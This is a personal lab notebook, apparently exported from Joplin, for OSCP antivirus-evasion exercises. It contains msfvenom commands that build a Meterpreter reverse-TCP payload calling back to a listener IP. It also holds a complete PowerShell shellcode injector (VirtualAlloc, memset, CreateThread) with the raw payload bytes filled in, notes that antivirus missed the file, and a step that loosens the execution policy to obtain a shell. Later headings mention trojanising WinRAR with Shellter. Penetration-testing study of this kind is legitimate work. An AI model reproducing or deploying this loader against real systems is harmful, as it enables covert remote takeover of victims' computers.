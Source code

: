 Exercises

# 17.3.3.2

Let's test Antivira. Create a Meterpreter payload.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.119.214 lport=4444 -f exe > binary.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

Ensure Avira has Real-Time Protection ON.
![04834e49c4fd68267a86830846270600.png](:/fae027a68c01427ca80b7b6012545fef)

Transfer binary.exe to the Windows client and try to run it. We get a security alert.
![e1f882c4bfc650e2560bcc9f2f9a6331.png](:/64e246672a564e2eb10f499e027e39dc)


## 17.3.3.2.1. Review the code from the PowerShell script and ensure that you have a basic understanding of how it works
```powershell
$code = '

# Import VirtualAlloc from kernel32.dll. This will allow us to allocate memory
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

# Import CreateThread from kernel32.dll. This will allow us to create an execution thread
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

# Import memset from msvcrt.dll. This will help us write arbitrary data to memory
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

#
# NOTE: We are allocating the memory and executing a new thread in the current process (powershell.exe) rather than a rmeote one.
#

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;


[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

# Allocate a block of memory using VirtualAlloc
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

# Take each byte of the payload stored in the $sc byte array and write it to our newly allocated memory block using memset
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

# Our in-memory written payload is executed in a separate thread using CreateThread
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

## 17.3.3.2.2. Get a meterpreter shell back to your Kali Linux machine using PowerShell.

Create the same Meterpreter payload as earlier but do not save it as binary.exe.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.119.214 lport=4444 -f powershell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of powershell file: 1666 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xc0,0xa8,0x77,0xd6,0x68,0x2,0x0,0x11,0x5c,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5
```

The full powershell script with the meterpreter payload added:
```powershell
$code = '

[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xc0,0xa8,0x77,0xd6,0x68,0x2,0x0,0x11,0x5c,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Check it with Virus Total. 5/60 AV programs detected it.
![6d3d0920246ed664c969061ca416331e.png](:/4cfbf785cb5f4cefb945cdccd7c2dba0)

I was unable to scan a single file. I moved the script to the Documents folder and did a quicker scan of that folder. Antivira result: No detection!
![f069b8cd673b93b9ffcf4c9a110320e6.png](:/dc494d6b5b584fa6a0955ae21fa4b784)

Run the script. We get an error
```plaintext
C:\Users\Administrator\Desktop>powershell ./memInject.ps1          
./memInject.ps1 : File C:\Users\Administrator\Desktop\memInject.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.                                                                          
At line:1 char:1                                                               
+ ./memInject.ps1
+ ~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess   
```

Change the policy for our current user to *Unrestricted*
```powershell
C:\Users\Administrator\Desktop>powershell                                       Windows PowerShell                                                              Copyright (C) Microsoft Corporation. All rights reserved.                                                                                                       PS C:\Users\Administrator\Desktop> Get-ExecutionPolicy -Scope CurrentUser       Undefined                                                                       

PS C:\Users\Administrator\Desktop> Set-ExecutionPolicy -ExecutionPolicy
Unrestricted -Scope CurrentUser

PS C:\Users\Administrator\Desktop> Get-ExecutionPolicy -Scope CurrentUser   
Unrestricted                                                                    
```

Start a meterpreter handle on Kali
![954abd1fb98fc0f87c0dc9825b4a436a.png](:/5016c5f052a644639007127021c9f5d5)

Run the powershellcode script
```powershell
PS C:\Users\Administrator\Desktop> .\memInject.ps1                                                                                                              IsPublic IsSerial Name                                     BaseType             -------- -------- ----                                     --------             True     True     Byte[]                                   System.Array         53542912
53542913                                                                        53542914                                                                        53542915 
...
```
![a1a57ffd0d2965b9bce9442900a49b53.png](:/59ff9e4ff2164562881046f423f3ea1c)

Notice we receive a Meterpreter shell
![f903cac1747585df0391c8bc0822db7a.png](:/2a9784943fe54b0a94827d408b5428c5)


## 17.3.3.2.3. Attempt to get a reverse shell using a PowerShell one-liner rather than a script.
Move the powershell script to the Apache web server and start Apache
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ sudo cp memInject.ps1 /var/www/html
[sudo] password for kali: 
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ sudo systemctl start apache2
```



# 17.3.3.4
## 17.3.3.4.1. Inject a meterpreter reverse shell payload in the WinRAR executable. 


## 17.3.3.4.2. Transfer the binary to your Windows client and ensure that it is not being detected by the antivirus


## 17.3.3.4.3. Run the WinRAR installer and migrate your meterpreter shell to prevent a disconnect.
## 17.3.3.4.4. Attempt to find different executables and inject malicious code into them using Shellter. 

id: 50be10bee0bb49049250d43d823c4b6a
parent_id: c5ce953b3101495abbff082a1b11738b
created_time: 2020-09-29T09:08:02.456Z
updated_time: 2020-09-29T11:06:47.228Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-29T09:08:02.456Z
user_updated_time: 2020-09-29T11:06:47.228Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1